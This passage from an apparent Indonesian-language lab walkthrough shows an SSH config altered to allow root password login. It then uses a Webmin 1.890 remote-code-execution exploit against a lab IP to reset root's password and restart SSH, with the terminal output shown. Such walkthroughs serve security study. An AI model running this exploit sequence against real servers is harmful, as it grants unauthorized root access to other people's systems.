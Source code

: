 ```bash
# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# override default of no subsystems
Subsystem sftp	/usr/lib/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#	X11Forwarding no
#	AllowTcpForwarding no
#	PermitTTY no
#	ForceCommand cvs server
PasswordAuthentication yes
PermitRootLogin yes
</p>
```

Setelah itu, karena saya tidak tahu apa password untuk `root` user, maka perlu saya ganti passwordnya dan restart ssh service.

```bash
natanhp@ngoumah ~/D/w/WebMin-1.890-Exploit-unauthorized-RCE (master) [1]> python webmin-1.890_exploit.py 192.168.75.128 10000 "echo \"root:toor\" | chpasswd"
/home/natanhp/Downloads/wembin/WebMin-1.890-Exploit-unauthorized-RCE/webmin-1.890_exploit.py:6: SyntaxWarning: invalid escape sequence '\_'
  STAIN = """


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ /
 ___/ // / / ___ |_/ // /|  /
/____//_/ /_/  |_/___/_/ |_/

--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
</p>
natanhp@ngoumah ~/D/w/WebMin-1.890-Exploit-unauthorized-RCE (master) [1]> python webmin-1.890_exploit.py 192.168.75.128 10000 "systemctl restart ssh"
/home/natanhp/Downloads/wembin/WebMin-1.890-Exploit-unauthorized-RCE/webmin-1.890_exploit.py:6: SyntaxWarning: invalid escape sequence '\_'
  STAIN = """


--------------------------------
   ______________    _____   __
  / ___/_  __/   |  /  _/ | / /
  \__ \ / / / /| |  / //  |/ /
 ___/ // / / ___ |_/ // /|  /
/____//_/ /_/  |_/___/_/ |_/

--------------------------------

WebMin 1.890-expired-remote-root

<h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
</p>
```
